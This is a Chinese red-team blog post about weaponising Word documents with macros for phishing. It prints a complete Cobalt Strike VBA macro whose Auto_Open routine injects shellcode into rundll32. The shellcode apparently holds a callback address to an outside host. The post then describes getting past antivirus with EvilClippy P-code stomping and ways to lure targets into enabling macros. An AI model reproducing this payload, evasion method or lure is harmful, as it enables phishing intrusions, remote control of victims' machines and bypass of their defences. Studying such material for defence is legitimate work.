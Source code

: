 ```yaml
---
layout: post
title:  "钓鱼文件宏病毒利用"
subtitle: '红蓝对抗-钓鱼'
date:   2021-07-23 18:00:00
tags: 钓鱼 免杀
description: '钓鱼 免杀'
color: 'rgb(255,192,203)'
cover: 'https://a111-1255560786.cos.ap-nanjing.myqcloud.com/20210727001.jpg'
---
```



[TOC]
## 简单的恶意文档
一般使用流程  
生成payload  
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2021072301.png)  
新建word，打开选项-自定义功能区-勾选开发工具
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2021072302.png) 
然后输入诱惑性内容，点击VB，把cs生成的vba代码放进去即可。
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2021072303.png)  
保存为word97-2003文档，注意修改作者
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2021072304.png)  
随后如果点击了启用宏，就会上线

## cs生成的宏分析
这里注意一下vba和vbs还是有区别的  
代码中最主要的部分是
```
#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If
```
VBA 最强大的功能之一是可以从**Windows API**导入函数，上面这段主要导入了以下4个函数  
[CreateRemoteThread（线程创建）](https://docs.microsoft.com/zh-cn/windows/win32/procthread/creating-threads)  
[VirtualAllocEx（内存分配）](https://docs.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)  
[WriteProcessMemory（写进程内存）](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[CreateProcessA（进程创建）](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)  

其次就是这个auto_open函数了
```
Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,-24,0,0,0,0,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-92,0,0,0,91,49,-55,81,81,106,3,81,81,104,15,39,0,0,83, _
80,104,87,-119,-97,-58,-1,-43,80,-23,-116,0,0,0,91,49,-46,82,104,0,50,-64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61, _
80,104,-128,51,0,0,-119,-32,106,4,80,106,31,86,104,117,70,-98,-122,-1,-43,95,49,-1,87,87,106,-1,83,86,104,45,6,24,123,-1,-43,-123,-64,15, _
-124,-54,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1,-43,49,-1,87,106,7,81,86,80,104, _
-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,117,7,88,80,-23,123,-1,-1,-1,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,111,-1,-1,-1,47, _
66,121,111,50,0,53,79,33,80,37,64,65,80,91,52,92,80,90,88,53,52,40,80,94,41,55,67,67,41,55,125,36,69,73,67,65,82,45,83,84, _
65,78,68,65,82,68,45,65,78,84,73,86,73,82,85,83,45,84,69,83,84,45,70,73,76,69,33,36,72,43,72,42,0,53,79,33,80,37,0,85, _
115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77,83,73,69, _
32,57,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,49,59,32,87,79,87,54,52,59,32,84,114,105,100,101,110,116,47,53,46,48, _
59,32,78,80,48,57,59,32,78,80,48,57,59,32,77,65,65,85,41,13,10,0,53,79,33,80,37,64,65,80,91,52,92,80,90,88,53,52,40,80, _
94,41,55,67,67,41,55,125,36,69,73,67,65,82,45,83,84,65,78,68,65,82,68,45,65,78,84,73,86,73,82,85,83,45,84,69,83,84,45,70, _
73,76,69,33,36,72,43,72,42,0,53,79,33,80,37,64,65,80,91,52,92,80,90,88,53,52,40,80,94,41,55,67,67,41,55,125,36,69,73,67, _
65,82,45,83,84,65,78,68,65,82,68,45,65,78,84,73,86,73,82,85,83,45,84,69,83,84,45,70,73,76,69,33,36,72,43,72,42,0,53,79, _
33,80,37,64,65,80,91,52,92,80,90,88,53,52,40,80,94,41,55,67,67,41,55,125,36,69,73,67,65,82,45,83,84,65,78,68,65,82,68,45, _
65,78,84,73,86,73,82,85,83,45,84,69,83,84,45,70,73,76,69,33,36,72,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0,104,0,0, _
64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43,-123,-64,116, _
-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-119,-3,-1,-1,56,49,46,54,56,46,50,50,49,46,50,50,0,0,0,0,0)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
```
这段内容就调用函数往内存里写shellcode了。


## 免杀思路
现在简单整理一下免杀的思路  
1. 远程调用启用宏模板
1. 对vba脚本进行编码混淆
1. vba写hta、vbs脚本、写注册表等手段来绕过
1. 文档加密


## 加密混淆
上面的远程调用，vba执行powershell等方式网上文章还挺多的，是否失效还有待测试。这里对自己之前没试过的vba脚本加密混淆做了一些尝试。  
拿着生成后的vba脚本静态查杀下，发现火绒静态查杀的时候是查杀这些关键函数和一些组合  
在尝试了一些网上的加密工具后发现，工具不能对vba脚本中的函数导入进行混淆加密，因为大部分都是VB7环境，条件编译部分的判断可以删掉，修修改改发现老报错。      
还是现成的工具实在，这里使用[Evil Clippy](https://github.com/outflanknl/EvilClippy)这个工具。该工具提供了隐藏宏，混淆宏等绕过AV的检查技术。  
这里我主要用了重置随机化模块名称的功能（Set/reset random module names (fool analyst tools)）和滥用P-code（Stomp VBA abuse P-code）的方式  
下载后在kali中[安装mono](https://www.mono-project.com/download/stable/#download-lin-debian)。装完后使用`mcs /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs`进行编译。  
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2021072306.png)
为啥不在windows下的visual studio 编译呢，因为编译会有问题，详见[github issues](https://github.com/outflanknl/EvilClippy/issues/8)。  
最后发现使用工具-r会被杀掉，使用-s（滥用P-code）可以绕过。
![](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/2021072307.png)

## 诱导点击
有了文档后，还是需要诱导用户进行点击启用宏，这个尽量还是根据目标对象进行针对性诱导。  
例如将文档正文部分隐藏，然后提前录制好宏，点击启用宏后自动执行然后显示内容，或者输出一些内容等。  
或者在文档最上方插入图片，此文档受宏保护，需启用宏。


## 项目推荐
写文章在查找资料时发现了一些有意思的项目  
[vbs调PE执行命令](https://github.com/itm4n/VBA-RunPE)  
[vbs加载powershell免杀](https://github.com/PDWR/3vilMacro)  
[编译后的EvilClippy](https://github.com/Cl0udG0d/EvilClippy)